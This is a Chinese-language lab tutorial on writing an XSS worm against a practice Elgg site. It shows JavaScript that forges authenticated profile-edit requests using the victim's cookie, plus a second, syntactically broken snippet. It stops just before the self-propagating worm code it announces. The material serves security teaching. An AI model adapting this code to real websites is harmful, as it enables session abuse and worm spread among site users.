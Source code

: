 #### xss蠕虫 cross site scripting worm ###

XSS蠕虫是一种跨站脚本病毒， 通常由脚本语言Javascript写成， 它借由网站访问者传播。由于XSS蠕虫基于浏览器而不是操作系统, 取决于其依赖网站的规模, 它可以在短时间内达到对巨大数量的计算机感染。

#### XSS蠕虫的危害 ###

蠕虫可以用来打广告、刷流量、挂马、恶作剧、破坏网上数据、实施DDoS攻击等等。

#### XSS蠕虫的学习 ###

首先我么需要理解一下Ajax框架。框架代码如下：

```
    var Ajax=null;
    // 构建http请求的头信息
    Ajax=new XMLHttpRequest();
    Ajax.open(&#34;POST&#34;,&#34;http://www.xsslabelgg.com/action/profile/edit&#34;,true);
    Ajax.setRequestHeader(&#34;Host&#34;,&#34;www.xsslabelgg.com&#34;);
    Ajax.setRequestHeader(&#34;Keep-Alive&#34;,&#34;300&#34;);
    Ajax.setRequestHeader(&#34;Connection&#34;,&#34;keep-alive&#34;);
    Ajax.setRequestHeader(&#34;Cookie&#34;,document.cookie);
    Ajax.setRequestHeader(&#34;Content-Type&#34;,&#34;application/x-www-form-urlencoded&#34;);
    // 构建http请求内容。 内容的格式可以从浏览器插件LiveHTTPHeaders中知道长什么样
    var content=&#34;name=...&amp;company=&amp;...&#34;; // 这是你需要填写的内容
    // 发送http POST请求。
    Ajax.send(content);
```

我们创建一个test.js的文件；这个文件中是上面的Ajax框架：

```
 sudo vim test.js
```

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430793258202?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

然后我们在创建一个test1.js的文件，写一个xss蠕虫代码：

```
 sudo vim test1.js
```

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430793277872?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

这里是代码：

```
    var on=new Ajax.PeriodicalUpdater(&#34;edit&#34;,
    &#34;http://www.xsslabelgg.com/action/profile/edit&#34;,
    //定义一个新的Ajax.PeriodicalUpdater
    {method:’get’,onSuccess:function(transport){alert(transport.responseText);},
    frequence:1000}
    //请求方式为get，频率为1000
```

上面的蠕虫代码不能够进行自动传播，这样达不到我们的需求；我们需要编写一个可以自动传播的xss蠕虫病毒，下面这段代码是蠕虫可以自动传播：
